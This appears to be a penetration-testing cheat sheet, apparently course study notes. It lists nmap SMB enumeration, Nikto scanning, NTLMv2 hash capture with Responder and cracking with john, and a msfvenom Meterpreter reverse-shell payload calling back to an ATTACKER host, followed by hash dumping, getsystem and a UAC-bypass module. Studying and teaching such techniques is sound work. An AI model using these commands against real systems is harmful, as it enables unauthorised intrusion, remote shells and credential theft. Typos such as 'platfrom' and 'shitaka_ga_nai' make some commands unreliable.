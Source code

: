 - Other:
  - *SMB enumeration*:
    - **nmap -p 445 --script smb-enum-shares [IP]**
    - **nmap -p 445 --script smb-enum-users --script-args smbusername=xx,smbpassword=xx  [IP]**
  - *RDP scanner*:
    - In Metasploit: **use auxiliary/scanner/rdp/rdp_scanner**

## Vulnerability Analysis

OpenVAS, Nessus, Nikto

### Perform Vulnerability Analysis using OpenVAS

- Scan -> Tasks -> Task Wizard

### Perform Web Servers and Applications Vulnerability Scanning using Nikto

- **nikto -h [URL] -Tuning [X] -o [OUTPUT_FILE] -F txt**
  - **Tuning**: specific test to perform, i.e 4==Injection

## System Hacking

### Perform Active Online Attack to Crack the System's Password using Responder

- **Linux:**
  - chmod +x ./Responder.py
  - **sudo ./Responder.py -I eth0**

- **Linux:**
  - Home/Responder/logs/SMB-NTMLv2-SSP-[IP].txt
  - **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

### Escalate privileges using privilege escalation tools...

- Create malicious executable
  - **msfvenom -p windows/meterpreter/reverse_tcp --platfrom windows -a x86 -e x86/shitaka_ga_nai -b "\x00" LHOST=ATTACKER -f exe > EXE_FILE**

- Listener:
  - **msfconsole**
  - *use exploit/multi/handler*
  - *set payload windows/meterpreter/reverse_tcp*
  - *set LHOST ATTACKER*
  - *exploit -j -z*
- After executing file on VICTIM
  - *session -i X*
  - *getuid*
- Dump hash
  - *run post/windows/gather/smart_hashdump*
  - If insufficient privileges:
    - *getsystem -t 1*
  - If still problems then:
    - *background*
    - *use exploit/windows/local/bypassuac_fodhelper*
    - *set SESSION X*
